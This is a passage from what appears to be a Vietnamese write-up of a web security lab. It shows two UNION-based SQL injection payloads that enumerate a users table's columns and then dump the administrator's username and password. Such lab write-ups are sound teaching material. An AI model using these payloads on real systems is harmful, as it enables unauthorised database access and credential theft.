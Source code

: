 Tiếp theo, em liệt kê các cột của bảng `users_jipqgs` bằng cách sử dụng payload `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_jipqgs'--` thấy được cột `password_uaaenk` và cột `username_unitwp`:

![lab-7-2](images/lab-7/lab-7-2.png)

Em đọc nội dung của 2 cột đó sử dụng payload `' UNION SELECT password_uaaenk, username_unitwp FROM users_jipqgs--` thấy được thông tin của `administrator`:

![lab-7-3](images/lab-7/lab-7-3.png)
